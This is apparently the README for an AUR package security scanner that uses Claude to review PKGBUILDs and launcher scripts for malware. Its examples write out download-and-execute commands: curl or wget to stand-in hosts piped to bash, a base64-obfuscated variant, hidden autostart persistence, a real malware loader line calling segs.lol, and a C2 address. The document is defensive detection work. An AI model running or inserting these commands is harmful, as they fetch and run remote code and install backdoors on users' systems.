


# Enhanced Package Security Scanner v2.0 - README

## Overview

The Enhanced Package Security Scanner is an intelligent wrapper script that reviews Arch User Repository (AUR) packages for security threats before updating them. It uses Claude AI to analyze package files, detect malware patterns, and provides smart security gating for system updates.

## ✨ New Features in v2.0

- **🔍 Binary Pattern Scanning**: Scans pre-built binaries for suspicious URLs and crypto wallets
- **🏛️ Official Package Review**: Optional security review of official packages (use `--review-official`)
- **⚖️ Smart Risk Assessment**: Improved categorization (NONE/LOW = safe, MEDIUM = warning, HIGH/CRITICAL = blocked)
- **🩹 Remediation Suggestions**: Claude provides specific steps to fix security issues
- **❌ False Positive Fix**: Pre-built binaries from official sources no longer incorrectly flagged
- **🎯 Selective Review**: Choose specific packages to review instead of all-or-nothing

## How the Review Process Works

### Step-by-Step Process

1. **Check for Updates**
   ```bash
   yay -Qua  # Lists all AUR packages with available updates
   ```

2. **Download Package Files**
   ```bash
   yay -G package-name  # Downloads to temporary directory
   ```

3. **Send to Claude for Analysis**
   ```bash
   # The script sends ALL files in the package directory to Claude
   claude --print "Security review prompt..." .
   ```

4. **Claude's Analysis Method**

   Claude performs a comprehensive security review by:

   #### a) **Pattern Recognition**
    - Searches for known malware patterns from recent attacks
    - Identifies suspicious command combinations
    - Detects obfuscation techniques

   #### b) **Code Analysis**
   ```bash
   # Claude looks for patterns like:
   curl malicious-url | bash
   wget -O- evil.com | sh
   python -c "$(curl ...)"
   echo "base64string" | base64 -d | bash
   ```

   #### c) **Behavioral Analysis**
    - Network connections to unknown hosts
    - File system modifications outside package scope
    - Persistence mechanisms (systemd, cron, bashrc)
    - Privilege escalation attempts

   #### d) **URL Verification**
    - Checks for suspicious domains
    - Identifies URL shorteners
    - Detects pastebin-like services
    - Validates source URLs against expected patterns

### Claude's Review Methodology

```
┌─────────────────────────────────────────┐
│           CLAUDE'S ANALYSIS             │
├─────────────────────────────────────────┤
│ 1. Parse PKGBUILD                       │
│    ├─ Check source URLs                 │
│    ├─ Analyze build() function          │
│    ├─ Review install hooks              │
│    └─ Validate checksums                │
├─────────────────────────────────────────┤
│ 2. Scan Additional Files                │
│    ├─ Shell scripts (.sh)               │
│    ├─ Install scripts (.install)        │
│    ├─ Patch files (.patch)              │
│    └─ Configuration files               │
├─────────────────────────────────────────┤
│ 3. Threat Detection                     │
│    ├─ Known malware signatures          │
│    ├─ Suspicious behavior patterns      │
│    ├─ Obfuscation techniques            │
│    └─ Unusual system modifications      │
├─────────────────────────────────────────┤
│ 4. Risk Assessment                      │
│    ├─ CRITICAL: RCE, RAT, ransomware    │
│    ├─ HIGH: Data theft, backdoors       │
│    ├─ MEDIUM: Tracking, adware          │
│    └─ LOW: Minor privacy concerns       │
└─────────────────────────────────────────┘
```

## What Gets Reviewed?

### 1. **PKGBUILD File** (Primary)

Claude analyzes every line of the PKGBUILD for:

```bash
# Suspicious source downloads
source=("https://random-pastebin.com/raw/x8f3k2")  # ❌ Flagged

# Hidden commands in functions
build() {
    make
    curl -s evil.com/backdoor | bash  # ❌ Flagged
}

# Malicious install hooks
post_install() {
    echo "alias ls='ls;curl evil.com/log'" >> /etc/bash.bashrc  # ❌ Flagged
}
```

### 2. **Launcher Scripts**

The most common attack vector - wrapper scripts that execute before the actual program:

```bash
#!/bin/bash
# google-chrome-stable.sh - This entire file is analyzed

# ❌ This would be detected:
python -c "$(curl https://segs.lol/TfPjm0)"

# ❌ This would also be caught:
if [ ! -f ~/.config/.initialized ]; then
    wget -qO- https://evil.com/init.sh | bash
    touch ~/.config/.initialized
fi

exec /opt/google/chrome/chrome "$@"
```

### 3. **Source Files Analysis**

Every file in the package directory is scanned:

```
Package Directory:
├── PKGBUILD          ← Full analysis
├── chrome.sh         ← Checked for malicious code
├── chrome.desktop    ← Verified for exec tampering
├── chrome.install    ← Reviewed for malicious hooks
└── patches/
    └── fix.patch     ← Analyzed for code injection
```

### 4. **Deep Code Inspection**

Claude performs multi-layer analysis:

```bash
# Layer 1: Obvious malware
curl evil.com | bash  # Immediately flagged

# Layer 2: Obfuscated malware
echo "Y3VybCBldmlsLmNvbSB8IGJhc2g=" | base64 -d | sh  # Decoded and flagged

# Layer 3: Multi-stage malware
TMP=$(mktemp)
wget -O $TMP https://cdn.site.com/jquery.js  # Suspicious if not actual jQuery
chmod +x $TMP
$TMP  # Flagged as execution of downloaded content

# Layer 4: Persistence attempts
mkdir -p ~/.config/autostart
cat > ~/.config/autostart/updater.desktop << EOF
[Desktop Entry]
Exec=bash -c 'curl evil.com/persist.sh | bash'
Hidden=true
EOF  # Flagged as hidden autostart
```

## How Claude Detects Threats

### 1. **Signature-Based Detection**

Claude knows recent malware patterns:

```python
# Known malware signatures from recent attacks:
malware_signatures = [
    'python -c "$(curl',
    'segs.lol',
    'exec(base64.b64decode',
    'systemd-initd',  # Known malware process name
]
```

### 2. **Heuristic Analysis**

Behavioral patterns that indicate malware:

```bash
# Suspicious behavior combinations:
- Download + Execute in same command
- Base64/Hex encoding + Execution  
- Hidden file creation + Autostart
- System file modification + No clear reason
```

### 3. **Anomaly Detection**

Unusual patterns for the package type:

```bash
# Why would a browser package:
- Create systemd services?
- Modify .bashrc?
- Download additional scripts?
- Connect to pastebin services?
```

### 4. **Context-Aware Analysis**

Claude understands package context:

- **Browser packages** shouldn't create system services
- **Text editors** shouldn't need network access during install
- **Themes** shouldn't execute shell commands
- **Fonts** shouldn't modify PATH

## Security Report Format

### Claude's Response Structure

```yaml
VERDICT: [SAFE/THREAT DETECTED]
RISK: [NONE/LOW/MEDIUM/HIGH/CRITICAL]
SUMMARY: One-line description of findings

DETAILS:
- Specific file and line numbers
- Exact malicious code found
- Explanation of what the code does
- Potential impact on system
- Similar to known malware: [Yes/No]

SUSPICIOUS URLS:
- https://segs.lol/TfPjm0 (hosts Python RAT)
- https://paste.bin/raw/x8k3 (obfuscated payload)

INDICATORS OF COMPROMISE:
- Creates: ~/.config/systemd/user/evil.service
- Modifies: /etc/bash.bashrc
- Downloads: /tmp/systemd-initd
- Connects to: 130.162.225.47:8080
```

## Real-World Example

### The google-chrome-stable Attack

Here's how Claude would analyze the real malware:

```bash
# Claude receives this file: google-chrome-stable.sh
#!/bin/bash
# Wrapper script for Google Chrome

# Update check (looks innocent)
check_updates() {
    echo "Checking for updates..."
}

# ❌ MALICIOUS CODE - Claude detects this
python -c "$(curl -s https://segs.lol/TfPjm0)"

# Launch Chrome normally
exec /opt/google/chrome/google-chrome-stable "$@"
```

**Claude's Analysis:**
```
VERDICT: THREAT DETECTED
RISK: CRITICAL
SUMMARY: Remote code execution via curl downloading Python malware

DETAILS:
- File: google-chrome-stable.sh
- Line 11: python -c "$(curl -s https://segs.lol/TfPjm0)"
- This downloads and executes arbitrary Python code
- The Python script installs a Remote Access Trojan
- Creates persistence via systemd service
- Gives attacker full control of system

SUSPICIOUS URLS:
- https://segs.lol/TfPjm0 → Python loader script
- Secondary payload from loader → RAT binary

INDICATORS OF COMPROMISE:
- Creates: /tmp/systemd-initd (fake systemd process)
- Creates: ~/.config/systemd/user/[random].service
- Network: Connects to C2 server on port 8080
```

## What Makes This Approach Effective?

### 1. **Comprehensive File Analysis**
- Reviews ALL files, not just PKGBUILD
- Malware often hides in launcher scripts
- Can detect multi-stage attacks

### 2. **AI Pattern Recognition**
- Claude recognizes obfuscation techniques
- Understands context (why is a browser doing X?)
- Can decode base64/hex automatically

### 3. **Real-Time Analysis**
- Checks packages at update time
- Uses latest threat intelligence
- Adapts to new attack patterns

### 4. **Detailed Reporting**
- Shows exact malicious code
- Explains what it does
- Provides IoCs for system checking

## Limitations and Considerations

### What It CAN Detect:
✅ Remote code execution  
✅ Known malware patterns  
✅ Obfuscated payloads  
✅ Suspicious network activity  
✅ Persistence mechanisms  
✅ System modifications

### What It CANNOT Detect:
❌ Novel zero-day techniques  
❌ Deeply obfuscated malware (multiple encoding layers)  
❌ Malware in compiled binaries  
❌ Time-bomb malware (activates later)  
❌ Supply chain attacks on upstream

## Usage Examples

### Basic Usage
```bash
# Standard update with AUR security review
./secure-update.sh

# Review official packages too (time-consuming)
./secure-update.sh --review-official

# Skip security scanning (not recommended)
./secure-update.sh --skip-scan

# Use faster Claude model for quicker reviews
./secure-update.sh --model=haiku
```

### Command Line Options
```bash
Options:
  --full-scan         Scan all installed AUR/chaotic packages (not just updates)
  --scan-all          Scan ALL packages including official repos (paranoid mode)
  --skip-scan         Skip security scan entirely (dangerous!)
  --official-only     Only update official repo packages
  --review-official   Review official packages too (time-consuming!)
  --model=MODEL       Claude model: haiku (fast), sonnet (balanced), opus (thorough)
  --parallel=N        Number of parallel scan jobs (default: 10)
  --show-all          Show all packages regardless of count
  --max-display=N     Maximum packages to display (default: 50)
```

## Example Output

The scanner shows a clear selection interface:



And provides detailed results with risk assessment:



## Risk Levels Explained

| Risk Level | Action | Description |
|------------|--------|-------------|
| **NONE** | ✅ Safe | No security issues detected |
| **LOW** | ✅ Safe | Minor notes (e.g., downloads binaries - normal for -bin packages) |
| **MEDIUM** | ⚠️ Warning | Proceed with caution, review recommended |
| **HIGH** | ❌ Blocked | Suspicious patterns detected, manual review required |
| **CRITICAL** | ❌ Blocked | Malware detected, updates blocked for safety |

## Best Practices

1. **Use Selective Review**
   ```bash
   # Review only packages you're unsure about
   ./secure-update.sh
   # Choose: a (all), 1,2,3 (specific), or 1-5 (range)
   ```

2. **Review Claude's Findings**
    - Read remediation suggestions for flagged packages
    - Understand what each package does before installing
    - Check the detailed report for context

3. **Check Package Reputation**
    - Votes and comments on AUR
    - Maintainer history and activity
    - First submitted date and update frequency

4. **Use Official Repos When Possible**
    - Official packages are reviewed by Arch maintainers
    - AUR is convenience vs security tradeoff

## Integration with System

```bash
# ~/.bashrc or ~/.zshrc - Replace dangerous yay usage
alias secure-update='~/bin/secure-update.sh'
alias yay-update='echo "Use secure-update for safer AUR updates"'

# Smart yay wrapper that blocks dangerous operations
function yay() {
    if [[ "$1" == "-Syu"* ]] || [[ "$1" == "-Syyu"* ]]; then
        echo "⚠️  Use 'secure-update' for safe AUR updates with security review"
        return 1
    fi
    command yay "$@"
}
```

## Sample Security Report

See [aur-security-report-example.log](aur-security-report-20250815-172029.log) for a complete example of the security analysis output.
